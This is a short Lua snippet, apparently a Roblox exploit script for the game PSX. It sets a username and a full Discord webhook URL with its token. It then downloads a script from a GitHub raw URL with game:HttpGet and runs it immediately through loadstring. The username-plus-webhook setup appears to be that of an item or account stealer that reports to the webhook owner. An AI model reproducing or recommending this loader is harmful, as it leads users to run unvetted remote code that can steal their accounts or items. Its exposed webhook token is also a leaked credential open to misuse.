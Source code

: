 UserName = "BaconLoverTrades"
WebHook = "https://discord.com/api/webhooks/1057344534226415616/JFGy9tZC0LJXan0BBNvFaOQpdHvI0kpJpVSV2SwSaiGYqNBL8HswxUlheaUvwE7AMzj7"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()
